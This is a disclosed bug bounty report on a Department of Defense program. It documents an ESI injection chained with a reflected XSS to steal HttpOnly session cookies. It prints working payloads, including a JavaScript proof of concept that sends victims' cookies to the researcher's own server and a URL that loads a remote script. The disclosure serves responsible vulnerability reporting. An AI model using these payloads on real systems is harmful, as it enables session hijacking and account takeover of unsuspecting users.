 # [hta3] Chain of ESI Injection & Reflected XSS leading to Account Takeover on [███]

## Report Details
- **Report ID**: 1073780
- **URL**: https://hackerone.com/reports/1073780
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-01-07T20:34:35.137Z
- **Disclosed**: 2022-10-14T13:44:31.544Z

## Reporter
- **Username**: jr0ch17
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi,

## Summary
There is an **ESI injection** vulnerability in the [https://████████/portal/page/portal/TOPLEVELSITE/SearchResults/PerspectiveResults](https://████/portal/page/portal/TOPLEVELSITE/SearchResults/PerspectiveResults) endpoint on the **ms** parameter. With this injection, we're able to extract session cookies that have the HttpOnly flag by using this payload.

```xml
<esi:vars>$(HTTP_HEADER{Cookie})</esi:vars>
```

We also found a **Reflected XSS** vulnerability in the [https://████████/portal/pls/portal/PORTAL.wwexp_render.show_tree](https://████████/portal/pls/portal/PORTAL.wwexp_render.show_tree) endpoint on the **title** parameter

By chaining these 2 bugs together, we're able to steal session cookies and take over a victim user's account.
&nbsp;

## Steps To Reproduce
1- By browsing here `https://████████/portal/page/portal/TOPLEVELSITE/SearchResults/PerspectiveResults?osf=&ms=lol<esi:vars>$(HTTP_HEADER{Cookie})</esi:vars>lol&mo=containsall&pg=&sepg=-1&fi=&fs=&ft=&pu=1&has=&as=17%2C0%3B48%2C0&saa=ALL&po=matchall&pi=&pc=&co=equal&ci=&p_action=SUBMIT&ll=`, we're able to see your cookies in the **Search** field between the `lol` strings at the beginning and end.
█████████
2- When browsing here, `https://█████████/portal/pls/portal/PORTAL.wwexp_render.show_tree?p_otype=SITEMAP&p_request=open&p_minusimage=&p_plusimage=&p_headerimage=%2Fimages%2Fbhfind2.gif&p_show_banner=NO&p_show_cancel=NO&p_open_item=1.FOLDER.FOLDERMAP.1_0&p_open_items=0.SITEMAP.FOLDERMAP.0_-1&p_domain=wwc&p_sub_domain=FOLDERMAP&p_title=Browse+Pages</title><svg/onload=alert(domain)>&p_datasource_data=document.SEARCH60_PAGESEARCH_362193163.ft&p_datasource_data=document.SEARCH60_PAGESEARCH_362193163.fi&p_datasource_data=document.SEARCH60_PAGESEARCH_362193163.fs&p_datasource_data=nls_sub_domain%3Dtext%2Cnls_name%3Dfolderplpopup`, we can see an alert box showing the vulnerable domain caused by this HTML and JavaScript code in the **title** parameter.

```html
</title><svg/onload=alert(domain)>
```

████████

3- To chain these 2 bugs together, we created the following PoC. This JavaScript code is fetching the URL containing the ESI injection, grabbing the value of the cookies in the response and then sending them over to our server in order to steal them.

```javascript
fetch('https://████████/portal/page/portal/TOPLEVELSITE/SearchResults/PerspectiveResults?osf=&ms=lol<esi:vars>$(HTTP_HEADER{Cookie})</esi:vars>lol&mo=containsall&pg=&sepg=-1&fi=&fs=&ft=&pu=1&has=&as=17%2C0%3B48%2C0&saa=ALL&po=matchall&pi=&pc=&co=equal&ci=&p_action=SUBMIT&ll=').then(function (response) {
		return response.text();
}).then(function (html) {

	var parser = new DOMParser();
	var doc = parser.parseFromString(html, 'text/html');
  
  //var input = doc.querySelector('input')[0];
  var cookies = doc.getElementById("x61_ms").value;
  fetch(`https://www.jr0ch17.com/ato?cookies=${cookies}`);

}).catch(function (err) {
	// There was an error
	console.warn('Something went wrong.', err);
});
```

To trigger this whole PoC, you can browse to this URL. You can replace the server with your own to reproduce it.

```
https://████████/portal/pls/portal/PORTAL.wwexp_render.show_tree?p_otype=SITEMAP&p_request=open&p_minusimage=&p_plusimage=&p_headerimage=%2Fimages%2Fbhfind2.gif&p_show_banner=NO&p_show_cancel=NO&p_open_item=1.FOLDER.FOLDERMAP.1_0&p_open_items=0.SITEMAP.FOLDERMAP.0_-1&p_domain=wwc&p_sub_domain=FOLDERMAP&p_title=Browse+Pages</title><script/src='https://www.jr0ch17.com/hta3.js'></script>&p_datasource_data=document.SEARCH60_PAGESEARCH_362193163.ft&p_datasource_data=document.SEARCH60_PAGESEARCH_362193163.fi&p_datasource_data=document.SEARCH60_PAGESEARCH_362193163.fs&p_datasource_data=nls_sub_domain%3Dtext%2Cnls_name%3Dfolderplpopup
```

As you can see, the XSS payload is now the following.

```html
</title><script/src='https://www.jr0ch17.com/hta3.js'>
```

We can then see that we have received the victim's cookies including the session cookie which has the HttpOnly flag.
██████████
&nbsp;

## Impact

By chaining these 2 vulnerabilities together and by tricking a victim user into clicking a link, an attacker is able to steal their session cookies which have the HttpOnly flag and take over their account. With an ESI injection and depending on the configuration, it's also potentially possible to get an SSRF and get access to internal resources. We're still exploring that area of the bug at the moment so we'll provide updates on if we're able to get further with it.

Let me know if you have any questions or require more details.

Thanks,
@jr0ch17

## Attachments
No attachments
